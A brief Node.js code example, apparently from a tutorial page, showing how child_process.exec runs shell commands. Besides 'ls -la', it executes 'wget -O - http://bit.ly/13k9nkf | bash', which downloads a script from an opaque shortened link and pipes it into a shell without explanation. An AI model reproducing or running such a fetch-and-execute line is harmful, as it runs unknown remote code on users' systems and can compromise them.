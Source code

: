 # Nodejs



# Execute Unix Commands with nodejs

```js
var command_01 = "ls -la";
var command_02 = "wget -O - http://bit.ly/13k9nkf | bash";

var sys = require('sys')
var exec = require('child_process').exec;
function puts(error, stdout, stderr) { sys.puts(stdout) }

exec( command_01, puts );
exec( command_02, puts );
```
